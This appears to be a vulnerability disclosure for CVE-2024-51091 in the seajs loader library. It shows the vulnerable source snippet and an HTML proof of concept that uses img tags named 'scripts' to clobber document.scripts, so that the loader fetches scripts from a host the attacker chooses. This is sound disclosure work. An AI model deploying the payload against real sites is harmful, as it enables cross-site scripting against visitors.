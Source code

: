 ## seajs

### Meta

+ Library: seajs
+ Stars: 8.3K
+ Version: v3.0.3
+ Payload: ```<img name="scripts" src="https://xxx.xxx.xxx"><img name="scripts" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: CVE-2024-51091
+ Status: Reported
+ Foundby: TheHulk


### Library

https://github.com/seajs/seajs


### Vulnerable Code Snippet

```javascript
// https://github.com/seajs/seajs/blob/master/src/util-path.js#L231-L247
var doc = document
var scripts = doc.scripts

// Recommend to add `seajsnode` id for the `sea.js` script element
var loaderScript = doc.getElementById("seajsnode") ||
	scripts[scripts.length - 1]

function getScriptAbsoluteSrc(node) {
	return node.hasAttribute ? // non-IE6/7
		node.src :
		// see http://msdn.microsoft.com/en-us/library/ms536429(VS.85).aspx
		node.getAttribute("src", 4)
}
loaderPath = getScriptAbsoluteSrc(loaderScript)
// When `sea.js` is inline, set loaderDir to current working directory
loaderDir = dirname(loaderPath || cwd)
```

### PoC
```html

<!--Library-->
<script src="./sea-modules/seajs/seajs/3.0.3/sea.js"></script>
<script>
// Set configuration
seajs.config({
  alias: {
    "jquery": "jquery/jquery/1.10.1/jquery.js"
  }
});
seajs.use("examples/hello/1.0.0/main");
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999">
<img name="scripts" src="http://localhost:9999">
<!--Payload-->
```